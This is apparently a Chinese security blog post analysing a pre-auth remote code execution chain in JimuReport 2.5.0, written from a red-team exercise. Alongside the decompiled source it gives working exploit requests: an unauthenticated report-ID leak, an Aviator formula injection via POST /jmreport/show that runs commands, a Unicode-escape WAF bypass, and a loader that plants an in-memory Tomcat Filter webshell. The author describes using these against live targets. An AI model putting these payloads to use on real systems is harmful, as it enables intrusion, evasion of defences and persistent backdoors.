


## TL;DR

在上个月底某省护开始之前，由于这是我来到新公司的第一个项目所以我比较看重的，于是我说打护网，总得准备一些 day 在手上吧，但是买源码其实并不好买，我最后是问了一手要到了蓝凌 16（这玩意没挖到），又找了开源项目 JimuReport



但是实际测试其命中率并不高，所以并没有上报，不过项目还没结束，中途这个漏洞就从 QVD 冒出来了



积木报表给单元格公式配了一套脚本引擎，叫 Aviator。以 `=` 开头的内容会被编译执行，还可以用 `use` 把 Java 类引进来调用静态方法，这本来是给报表算数用的。

2.5.0 里，预览接口 `POST /jmreport/show` 会把调用方传进来的查询参数也送进这套引擎，当然如果是直接的 pre-auth 我肯定直接交了，有一个条件，需要报表编号，但是我又发现有一个接口可以直接泄露报表编号，所以这个漏洞项目的时候我还是拿了几个 shell 的。我看网上陆陆续续有不少的分析文章，最近我在参加项目，这次项目有不少蓝队和我们在进行实网对抗，访问多了我的 IP 甚至都会被拉黑，反而是有WAF 的只需要 bypass waf 就行了，蓝队貌似没有对这些站点进行管控，经过简单的测试，用 Unicode 编码即可绕过🤓，也就获得了本次项目的第一个 shell，记录一下，顺便复习下这个在一个月前挖掘的漏洞🤗

## 漏洞挖掘

> tips: 一开始本来是想要放图的，但是这个代码有编码啥的，而且对于漏洞中的无关代码很多，观感并不好，一段代码我长截图都截不完☹️

https://github.com/jeecgboot/JimuReport 报表逻辑在依赖`jimureport-spring-boot4-starter` 里。

先看到公式处理。字符串以 `=` 开头，就会拿去编译执行。官方只禁了在公式里 `new` 对象，但还可以用 `use` 把 Java 类引进来，所以我们只需要像模板注入一样找一个合适的命令执行的类就能 RCE 了。编译前会把公式里的 `=` 全部删掉，所以公式中间不能再写赋值。

```java
public static String a(String expression, Map<String, Object> systemParam) {
    String key;
    if (expression == null) {
        return expression;
    }
    if ((expression = expression.trim()).startsWith("=")) {
        String temp = expression.replace("=", "");
        if (OkConvertUtils.isEmpty(temp)) {
            return expression;
        }
        Expression exp = null;
        try {
            exp = i.compile(temp, true);
        }
        catch (UnsupportedFeatureException e2) {
            j.error("使用了不支持的表达式功能{}", (Object)e2.getMessage(), (Object)e2);
            return expression;
        }
        Object object = exp.execute(new HashMap(5));
        return object.toString();
    }
    if (expression.startsWith("#") && systemParam != null
            && systemParam.get(key = expression.substring(2, expression.length() - 1)) != null) {
        return systemParam.get(key).toString();
    }
    return expression;
}

static {
    h = new HashSet<String>();
    i = AviatorEvaluator.newInstance();
    i = i.useLRUExpressionCache(1000);
    i.setCachedExpressionByDefault(true);
    i.setOption(Options.TRACE_EVAL, (Object)false);
    i.setOption(Options.ALWAYS_PARSE_FLOATING_POINT_NUMBER_INTO_DECIMAL, (Object)true);
    i.disableFeature(Feature.NewInstance);
    Sum sum = new Sum();
    i.addFunction((AviatorFunction)sum);
    i.addFunction(sum.getName().toUpperCase(), (AviatorFunction)sum);
    Avg avg = new Avg();
    i.addFunction((AviatorFunction)avg);
    i.addFunction(avg.getName().toUpperCase(), (AviatorFunction)avg);
    Max max = new Max();
    i.addFunction((AviatorFunction)max);
    i.addFunction(max.getName().toUpperCase(), (AviatorFunction)max);
    Min min = new Min();
    i.addFunction((AviatorFunction)min);
    i.addFunction(min.getName().toUpperCase(), (AviatorFunction)min);
    RowNum rowNum = new RowNum();
    i.addFunction((AviatorFunction)rowNum);
    i.addFunction(rowNum.getName().toUpperCase(), (AviatorFunction)rowNum);
    Case caseFun = new Case();
    i.addFunction((AviatorFunction)caseFun);
    i.addFunction(caseFun.getName().toUpperCase(), (AviatorFunction)caseFun);
    DateFormat dateFormat = new DateFormat();
    i.addFunction((AviatorFunction)dateFormat);
    i.addFunction(dateFormat.getName().toUpperCase(), (AviatorFunction)dateFormat);
}
```

组件里就有一个执行系统命令的类，源码叫 `CommandExecUtil`，实际就是调用系统命令。打进公式时类名已经变成 `org.jeecg.modules.jmreport.common.util.d`，方法名是 `a`。Java 里常写 `Runtime.getRuntime().exec(...)` 去调用命令执行的方法，Aviator 不支持这种，但 `d.a(...)` 不用先拿对象，直接用类名就能调，反而更省事。

```java
public static String a(String[] command, String[] args) throws IOException {
    if (command == null || command.length == 0) {
        throw new IllegalArgumentException("命令不能为空");
    }
    if (args != null && args.length > 0) {
        command = (String[]) ArrayUtils.addAll(command, args);
    }
    String os = System.getProperty("os.name").toLowerCase();
    if (os.startsWith("windows")) {
        ArrayList<String> list = new ArrayList<String>(command.length + 2);
        list.addAll(Arrays.asList("cmd.exe", "/c"));
        for (String part : command) {
            if (part.contains(" ")) {
                part = "\"" + part.replaceAll("\"", "'") + "\"";
            }
            list.add(part);
        }
        command = list.toArray(new String[0]);
    }
    Process p = Runtime.getRuntime().exec(command);
    ByteArrayOutputStream bo = new ByteArrayOutputStream();
    InputStream in = new BufferedInputStream(p.getInputStream());
    byte[] buf = new byte[1024];
    int n;
    while ((n = in.read(buf)) != -1) {
        bo.write(buf, 0, n);
        if (new String(buf).contains("input any key to continue...")) {
            p.destroy();
        }
    }
    String out = bo.toString();
    in.close();
    bo.close();
    if (p != null) {
        p.destroy();
    }
    return out;
}
```

如下公式

```text
=use org.jeecg.modules.jmreport.common.util.d;d.a(seq.array(java.lang.String, "sh", "-c", "id"), nil)
```

然后找谁把用户输入送进公式，拼 SQL 的时候会把请求里的参数全部并进去，每个值都跑一遍公式。过滤 SQL 关键字是在公式跑完之后才做的，自然拦不住执行代码。

```java
@Override
public String getBaseSql(JmReportDb jmReportDb, JSONObject paramJson, Map<String, Object> sqlParamsMap, String dbParamType) {
    List<JmReportDbParam> paramList;
    String dbId = jmReportDb.getId();
    String dbCode = jmReportDb.getDbCode();
    String sql = jmReportDb.getDbDynSql();
    HashMap resultMap = new HashMap(5);
    JSONObject queryJson = new JSONObject();
    ArrayList<String> paramNumber = new ArrayList<String>();
    if (sql.toLowerCase().contains("where") && ((paramList = this.dbParamDao.list(dbId)) != null || paramList.size() > 0)) {
        for (JmReportDbParam param : paramList) {
            Object paramName;
            Boolean izExitDaoFormat;
            String tempKey = param.getParamName();
            Object paramValue = "";
            if (param.getSearchFlag() == 1) {
                paramValue = paramJson.get((Object)param.getParamName());
                if (paramValue == null) {
                    paramValue = "";
                }
                queryJson.put(tempKey, paramValue);
                paramJson.remove((Object)tempKey);
            } else {
                queryJson.put(tempKey, (Object)param.getParamValue());
                paramValue = param.getParamValue();
            }
            if (OkConvertUtils.isNotEmpty(param.getWidgetType()) && "number".equals(param.getWidgetType())) {
                paramNumber.add(tempKey);
            }
            if ((izExitDaoFormat = s.a(OkConvertUtils.getString((String)(paramName = param.getParamName()), ""), sql)).booleanValue()) continue;
            if (sqlParamsMap.containsKey(paramName)) {
                paramName = (String)paramName + JmReportUtil.a(5);
            }
            if ("jdbc".equals(dbParamType)) {
                sql = sql.replaceAll("'\\$\\{\\s*" + param.getParamName() + "\\s*}'", ":" + (String)paramName);
                sql = sql.replaceAll("\\$\\{\\s*" + param.getParamName() + "\\s*}", ":" + (String)paramName);
            } else {
                sql = sql.replaceAll("'\\$\\{\\s*" + param.getParamName() + "\\s*}'", ":sqlParamsMap." + (String)paramName);
                sql = sql.replaceAll("\\$\\{\\s*" + param.getParamName() + "\\s*}", ":sqlParamsMap." + (String)paramName);
            }
            sqlParamsMap.put((String)paramName, paramValue);
        }
    }
    queryJson.putAll((Map)paramJson);
    sql = JmReportUtil.k(sql);
    String token = this.jimuTokenClient.getToken();
    if (OkConvertUtils.isNotEmpty(token)) {
        Map<String, Object> systemParam = this.jimuTokenClient.getUserInfo(token);
        sql = JmReportUtil.b(sql, systemParam);
    } else {
        sql = JmReportUtil.b(sql, null);
    }
    HashMap<String, Object> paramMap = new HashMap<String, Object>(5);
    for (String key : queryJson.keySet()) {
        String value = queryJson.getString(key);
        if (OkConvertUtils.isEmpty(value)) {
            value = "";
        }
        value = ExpressUtil.a(value, null);
        paramMap.put(key, value);
        boolean izExitDaoFormat = s.a(OkConvertUtils.getString(key, ""), sql);
        if (sqlParamsMap.containsKey(key) && !izExitDaoFormat && OkConvertUtils.isNotEmpty(value)) {
            if (paramNumber.contains(key)) {
                Object numberValue = JmReportUtil.n(value);
                sqlParamsMap.put(key, numberValue);
            } else {
                sqlParamsMap.put(key, value);
            }
        }
        if (!izExitDaoFormat || !OkConvertUtils.isNotEmpty(value)) continue;
        SqlInjectionUtil.specialFilterContentForOnlineReport(value);
    }
    sql = FreeMarkerUtils.a(sql, paramMap);
    return sql;
}
```

再往上看，预览报表才会走到上面这段拼 SQL。GET 预览用的是地址栏里的编号，POST 预览改成读 JSON 里的编号和参数。所以公式是从 POST 的请求体里进来的。

```java
@GetMapping(value={"/show"})
public Result<?> a(@RequestParam(name="id") String id, HttpServletRequest request) {
    String params = request.getParameter("params");
    String sheetId = request.getParameter("sheetId");
    try {
        return this.jmReportDesignService.show(id, params, null, sheetId);
    }
    catch (Exception e) {
        org.jeecg.modules.jmreport.desreport.b.a.a(e);
        return Result.error(e.getMessage());
    }
}

@PostMapping(value={"/show"})
public Result<?> a(@RequestBody JSONObject jsonObject, HttpServletRequest request) {
    String id = jsonObject.getString("id");
    String sheetId = jsonObject.getString("sheetId");
    try {
        String params = jsonObject.getString("params");
        Result<JimuReport> showResp = this.jmReportDesignService.show(id, params, null, sheetId);
        JimuReport report = showResp.getResult();
        JSONObject jsonStrJson = this.jmReportFormService.fillInRender(report, jsonObject);
        if (OkConvertUtils.isNotEmpty(jsonStrJson)) {
            report.setJsonStrJson(jsonStrJson);
        }
        return showResp;
    }
    catch (Exception e) {
        org.jeecg.modules.jmreport.desreport.b.a.a(e);
        return Result.error(e.getMessage());
    }
}
```

这个预览接口本身没有写未授权注解，所以会进拦截器。没登录的时候，拦截器会再看，这是不是分享出去的预览。

```java
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
    if (!(handler instanceof HandlerMethod)) {
        return true;
    }
    if (request.getDispatcherType() == DispatcherType.ASYNC) {
        return true;
    }
    String requestPath = e.j(request.getRequestURI().substring(request.getContextPath().length()));
    log.debug("JimuReportInterceptor check requestPath = " + requestPath);
    int msgCode = 500;
    if (o.a(requestPath)) {
        log.error("请注意，请求地址有xss攻击风险！" + requestPath);
        this.backError(response, "请求地址有xss攻击风险!", msgCode);
        return false;
    }
    Object customPrePath = this.jmBaseConfig.getCustomPrePath();
    log.debug("customPrePath: {}", customPrePath);
    if (OkConvertUtils.isNotEmpty(customPrePath) && !((String)customPrePath).startsWith("/")) {
        customPrePath = "/" + (String)customPrePath;
    }
    request.setAttribute("customPrePath", customPrePath);
    HandlerMethod handlerMethod = (HandlerMethod)handler;
    Method method = handlerMethod.getMethod();
    if (requestPath.contains("/jmreport/shareView/")) {
        return true;
    }
    JimuNoLoginRequired jimuNoLoginRequired = method.getAnnotation(JimuNoLoginRequired.class);
    if (OkConvertUtils.isNotEmpty(jimuNoLoginRequired)) {
        return true;
    }
    boolean isEffectiveToken = false;
    try {
        isEffectiveToken = this.verifyToken(request);
    }
    catch (Exception exception) {
        // empty catch block
    }
    if (!isEffectiveToken) {
        if (this.jimuReportShareService.verifyShareTokenWithJwt(requestPath, request, response)) {
            return true;
        }
        if (this.jimuReportShareService.isSharingEffective(requestPath, request)) {
            return true;
        }
        String previousPage = request.getParameter("previousPage");
        if (OkConvertUtils.isNotEmpty(previousPage)) {
            if (!requestPath.startsWith("/jmreport/view")) {
                log.error("不被允许的钻取请求地址(" + request.getMethod() + ")：" + requestPath);
                this.backError(response, "Token校验失败，无权限访问！", msgCode);
                return false;
            }
            if (this.jimuReportShareService.isShareingToken(requestPath, request)) {
                return true;
            }
            log.error("分享链接失效或分享token不匹配(" + request.getMethod() + ")：" + requestPath);
            this.backError(response, "分享链接失效或分享token不匹配，禁止钻取!", msgCode);
            return false;
        }
        log.error("Token校验失败！请求无权限(" + request.getMethod() + ")：" + requestPath);
        this.backError(response, "Token校验失败，无权限访问！", msgCode);
        return false;
    }
    RequiresRoles requiresRoles = method.getAnnotation(RequiresRoles.class);
    RequiresPermissions requiresPermissions = method.getAnnotation(RequiresPermissions.class);
    if (requiresRoles != null || requiresPermissions != null) {
        boolean permOk;
        Result<?> roleVerifyResp = requiresRoles != null ? this.permissionsVerifyHandler.verifyRoles(request, requiresRoles, requestPath) : null;
        Result<?> verifyPermissionsResp = requiresPermissions != null ? this.permissionsVerifyHandler.verifyPermissions(request, requiresPermissions, requestPath) : null;
        boolean roleOk = roleVerifyResp != null && roleVerifyResp.isSuccess();
        boolean bl = permOk = verifyPermissionsResp != null && verifyPermissionsResp.isSuccess();
        boolean pass = requiresRoles != null && requiresPermissions != null ? roleOk || permOk : (requiresRoles != null ? roleOk : permOk);
        if (!pass) {
            Result<?> failResp = verifyPermissionsResp != null ? verifyPermissionsResp : roleVerifyResp;
            log.error(OkConvertUtils.getString(failResp.getMessage(), "没有权限，请联系管理员分配权限！"));
            this.backError(response, OkConvertUtils.getString(failResp.getMessage(), "没有权限，请联系管理员分配权限！"), OkConvertUtils.getInt(failResp.getCode(), msgCode));
            return false;
        }
    }
    return true;
}
```

分享预览有一份路径名单，`/jmreport/show` 在里面，所以没登录也可以走分享这套逻辑。

```java
public enum ShareUrlEnum {
    GET_QUERY_INFO("report", "/jmreport/getQueryInfo"),
    SHARE_VERIFICATION("report", "/jmreport/share/verification"),
    ADD_VIEW_COUNT("report", "/jmreport/addViewCount/{id}"),
    SHOW_DATA("report", "/jmreport/show"),
    EXPORT_PDF_STREAM("report", "/jmreport/exportPdfStream"),
    EXPORT_ALL_EXCEL_STREAM("report", "/jmreport/exportAllExcelStream"),
    EXPORT_WORD_STREAM("report", "/jmreport/export/word"),
    CHECK_PARAM("report", "/jmreport/checkParam/{id}"),
    QUERYMAP_BY_CODE("report", "/jmreport/map/queryMapByCode"),
    QUREST_SQL("report", "/jmreport/qurestSql"),
    QUREST_API("report", "/jmreport/qurestApi"),
    DICTCODE_SEARCH("report", "/jmreport/dictCodeSearch"),
    MULTIPLE_INIT_VALUE("report", "/jmreport/query/multiple/initValue"),
    GET_CHAR_DATA("report", "/jmreport/getCharData"),
    FORM_REPEAT_CHECK("report", "/jmreport/form/repeat/check/{reportId}/{field}/{value}"),
    FORM_REPEAT_SUBMIT("report", "/jmreport/form/submit"),
    DRAG_SHARE_VIEW("drag", "/drag/share/view/**"),
    DRAG_PAGE_QUERY("drag", "/drag/page/queryById"),
    DRAG_PAGE_ADDNUM("drag", "/drag/page/addVisitsNumber"),
    DRAG_PAGE_TEMPLATE_LIST("drag", "/drag/page/queryTemplateList"),
    DRAG_QUERY_CHART_DATA("drag", "/drag/onlDragDatasetHead/getAllChartData"),
    DRAG_QUERY_TOTAL_DATA("drag", "/drag/onlDragDatasetHead/getTotalData"),
    DRAG_QUERY_DICT_CODES("drag", "/drag/onlDragDatasetHead/getDictByCodes"),
    DRAG_MOCK_JSON("drag", "/drag/mock/json/**"),
    DRAG_GET_IMAGE_BASE64("drag", "/drag/getImageBase64/**"),
    DRAG_GET_MAP_DATA_BY_CODE("drag", "/drag/onlDragDatasetHead/getMapDataByCode"),
    DRAG_VIEW("drag", "/drag/view"),
    JIMUBI_VIEW("drag", "/jimubi/view"),
    JIMUBI_SHARE_VIEW("drag", "/jimubi/share/view/**");

    private String type;
    private final String value;

    public static List<String> getShareUrls() {
        return Arrays.stream(ShareUrlEnum.values())
            .filter(shareUrlEnum -> "report".equalsIgnoreCase(shareUrlEnum.getType()))
            .map(ShareUrlEnum::getValue)
            .collect(Collectors.toList());
    }
}
```

名单命中之后，会取出报表编号去分享表里查，是否有额外口令、状态有效性。取编号只看地址栏里的 `id`，不会看 POST 的 JSON。所以地址栏放一张已经公开分享的表过检查，然后在 JSON 里面注入即可 RCE。

```java
@Override
public boolean isSharingEffective(String reportIdUrl, HttpServletRequest request) {
    String[] excludeUrlArr;
    boolean exists = ShareUrlEnum.getShareUrls().stream().anyMatch(url -> b.match(url, reportIdUrl));
    if (exists) {
        String reportId = this.a(reportIdUrl, request);
        if (OkConvertUtils.isEmpty(reportId)) {
            return false;
        }
        JimuReportShare jurisdiction = this.selectJurisdiction(reportId);
        a.debug("分享报表验证有效性，reportId：{}，分享设置：{}",
            (Object)reportId, (Object)JSONObject.toJSONString((Object)jurisdiction));
        if (jurisdiction == null) {
            return false;
        }
        if (OkConvertUtils.isNotEmpty(jurisdiction.getShareToken())) {
            return this.isShareingToken(reportIdUrl, request);
        }
        jurisdiction = this.compareToDate(jurisdiction);
        return "0".equals(jurisdiction.getStatus());
    }
    exists = ShareUrlEnum.getDragShareUrls().stream().anyMatch(url -> b.match(url, reportIdUrl));
    if (!exists && OkConvertUtils.isNotEmpty(this.excludeUrls)
            && OkConvertUtils.isNotEmpty(excludeUrlArr = this.excludeUrls.split(","))) {
        exists = Arrays.stream(excludeUrlArr).anyMatch(excludeUrl -> b.match(excludeUrl, reportIdUrl));
    }
    return exists;
}

private String a(String requestPath, HttpServletRequest request) {
    String reportId = "";
    if (requestPath.startsWith(ShareUrlEnum.GET_QUERY_INFO.getValue())) {
        String method = request.getMethod();
        reportId = RequestMethod.POST.name().equals(method)
            ? e.a(request, "reportId")
            : request.getParameter("reportId");
    } else if (requestPath.startsWith(ShareUrlEnum.SHARE_VERIFICATION.getValue())
            || requestPath.startsWith(ShareUrlEnum.DICTCODE_SEARCH.getValue())
            || requestPath.startsWith(ShareUrlEnum.MULTIPLE_INIT_VALUE.getValue())) {
        reportId = request.getParameter("reportId");
    } else if (requestPath.startsWith(ShareUrlEnum.QUERYMAP_BY_CODE.getValue())
            || requestPath.startsWith(ShareUrlEnum.GET_CHAR_DATA.getValue())) {
        reportId = e.a(request, "reportId");
    } else if (requestPath.startsWith(ShareUrlEnum.EXPORT_PDF_STREAM.getValue())
            || requestPath.startsWith(ShareUrlEnum.EXPORT_ALL_EXCEL_STREAM.getValue())
            || requestPath.startsWith(ShareUrlEnum.EXPORT_WORD_STREAM.getValue())) {
        reportId = e.a(request, "excelConfigId");
    } else if (requestPath.startsWith(ShareUrlEnum.QUREST_SQL.getValue())
            || requestPath.startsWith(ShareUrlEnum.QUREST_API.getValue())) {
        String apiSelectId = e.a(request, "apiSelectId");
        JmReportDb jmReportDb;
        if (OkConvertUtils.isNotEmpty(apiSelectId) && (jmReportDb = this.jimuReportDbDao.get(apiSelectId)) != null) {
            reportId = jmReportDb.getJimuReportId();
        }
    } else if (requestPath.startsWith(ShareUrlEnum.SHOW_DATA.getValue())) {
        reportId = request.getParameter("id");
        if (OkConvertUtils.isEmpty(reportId)) {
            reportId = e.a(request, "id");
        }
    } else if (b.match(ShareUrlEnum.FORM_REPEAT_SUBMIT.getValue(), requestPath)) {
        reportId = e.a(request, "reportId");
    } else {
        Map pathVars = (Map)request.getAttribute(HandlerMapping.URI_TEMPLATE_VARIABLES_ATTRIBUTE);
        if (pathVars != null && OkConvertUtils.isEmpty(reportId = (String)pathVars.get("id"))) {
            reportId = (String)pathVars.get("reportId");
        }
    }
    return reportId;
}
```

编号从哪来？😇 积木报表有个注解可以定义接口是否未授权，又找到一个接口是未授权能拿到报表编号和公开分享地址。

```java
@Documented
@Inherited
@Target(value={ElementType.METHOD, ElementType.TYPE})
@Retention(value=RetentionPolicy.RUNTIME)
public @interface JimuNoLoginRequired {
}
```

```java
@RestController(value="designReportController")
@RequestMapping(value={"/jmreport"})
public class a {

    @JimuNoLoginRequired
    @GetMapping(value={"/excelQueryByTemplate"})
    public Result<?> b(@RequestParam(name="reportType", required=false) String reportType,
                       @RequestParam(name="name") String name,
                       @RequestParam(name="pageNo", defaultValue="1") Integer pageNo,
                       @RequestParam(name="pageSize", defaultValue="10") Integer pageSize,
                       HttpServletRequest request) {
        return this.jmReportDesignService.excelQueryByTemplate(reportType, name, request, pageNo, pageSize, false);
    }
```

## 实网经历

未登录拉模板，返回里带着公开分享地址和 SQL 报表编号，就是官方演示数据那一套：

```http
GET /jmreport/excelQueryByTemplate?name=%25&pageNo=1&pageSize=50 HTTP/1.1
Host: x.x.x.x:8209
```

```http
HTTP/1.1 200 OK
Content-Type: application/json;charset=UTF-8

{
  "success": true,
  "result": {
    "total": 22,
    "records": [
      {
        "id": "xxx",
        "name": "xxx-xxx(xxx)",
        "shareViewUrl": "/jmreport/shareView/xxx"
      },
      {
        "id": "xxx",
        "name": "xxx"
      },
      {
        "id": "xxx",
        "name": "nnn"
      }
    ]
  }
}
```

URL 上放公开分享的编号，请求体里换成 SQL 报表编号，`params` 里公式以 `=` 开头。明文带点号、括号会被防火墙拦住，放回 403

```http
POST /jmreport/show?id=xxx HTTP/1.1
Host: x.x.x.x:8209
Content-Type: application/json
X-Requested-With: XMLHttpRequest

{"id":"nnn","params":"{\"x\":\"=use java.lang.Integer;Integer.parseInt(\\\"ok\\\")\"}"}
```

Unicode 编码绕过

```http
POST /jmreport/show?id=xxx HTTP/1.1
Host: x.x.x.x:8209
Content-Type: application/json
X-Requested-With: XMLHttpRequest

{"id":"nnn","params":"\u007b\u0022\u0078\u0022\u003a\u0020\u0022\u003d\u0075\u0073\u0065\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0049\u006e\u0074\u0065\u0067\u0065\u0072\u003b\u0049\u006e\u0074\u0065\u0067\u0065\u0072\u002e\u0070\u0061\u0072\u0073\u0065\u0049\u006e\u0074\u0028\u005c\u0022\u006f\u006b\u005c\u0022\u0029\u0022\u007d"}
```

```http
HTTP/1.1 200 OK
Content-Type: application/json;charset=UTF-8

{"success":false,"message":"For input string: \"ok\"","code":500}
```

现场还能加载到 hutool，同样手法把命令输出塞进 `parseInt`

```http
POST /jmreport/show?id=xxx HTTP/1.1
Host: x.x.x.x:8209
Content-Type: application/json
X-Requested-With: XMLHttpRequest

{"id":"nnn","params":"\u007b\u0022\u0078\u0022\u003a\u0020\u0022\u003d\u0075\u0073\u0065\u0020\u0063\u006e\u002e\u0068\u0075\u0074\u006f\u006f\u006c\u002e\u0063\u006f\u0072\u0065\u002e\u0075\u0074\u0069\u006c\u002e\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u0055\u0074\u0069\u006c\u003b\u0075\u0073\u0065\u0020\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0049\u006e\u0074\u0065\u0067\u0065\u0072\u003b\u0049\u006e\u0074\u0065\u0067\u0065\u0072\u002e\u0070\u0061\u0072\u0073\u0065\u0049\u006e\u0074\u0028\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u0055\u0074\u0069\u006c\u002e\u0065\u0078\u0065\u0063\u0046\u006f\u0072\u0053\u0074\u0072\u0028\u0073\u0065\u0071\u002e\u0061\u0072\u0072\u0061\u0079\u0028\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0053\u0074\u0072\u0069\u006e\u0067\u002c\u0020\u005c\u0022\u0065\u0063\u0068\u006f\u005c\u0022\u002c\u0020\u005c\u0022\u004a\u0058\u0048\u0057\u005f\u004d\u0041\u0052\u004b\u005f\u0035\u0036\u005c\u0022\u0029\u0029\u0029\u0022\u007d"}
```

```http
HTTP/1.1 200 OK
Content-Type: application/json;charset=UTF-8

{"success":false,"message":"For input string: \"JXHW_MARK_56\n\"","code":500}
```

解码后的公式是：

```text
=use cn.hutool.core.util.RuntimeUtil;use java.lang.Integer;Integer.parseInt(RuntimeUtil.execForStr(seq.array(java.lang.String, "echo", "JXHW_MARK_56")))
```

其中 getID 和 postID 可以是同一个，也可以不同，这里我是使用的不同的。

## 挂马

为了避免他直接给我拉黑了，我命令执行都不敢，直接挂马。只调用静态方法，把一段自己的 Java 类加载进当前进程，在 Tomcat 里注册 Filter。

- `<CLASS_NAME>`：这个类的全名，例如 `org.apache.catalina.util.DemoFilter`
- `<GZIP_BASE64_OF_CLASS>`：把上面那个 `.class` 先 gzip、再 Base64 之后得到的整段文本。

```text
=use org.springframework.cglib.core.ReflectUtils;
use cn.hutool.core.codec.Base64;
use cn.hutool.core.util.ZipUtil;
use cn.hutool.core.util.ClassUtil;
use cn.hutool.core.util.ReflectUtil;
use java.lang.Integer;
use java.lang.String;
Integer.parseInt(String.valueOf(ReflectUtils.defineClass("<CLASS_NAME>",ZipUtil.unGzip(Base64.decode("<GZIP_BASE64_OF_CLASS>")),ClassUtil.getClassLoader())))
```

这里有一个小坑点，如果类名里出现 `$`，Aviator 会当成变量，需要用 `String.valueOf(Character.toChars(36)[0])` ，加载成功后再 new 一次，走到构造方法里完成注册。

```text
Integer.parseInt(String.valueOf(ReflectUtil.newInstanceIfPossible(ClassUtil.loadClass("<CLASS_NAME>"))))
```


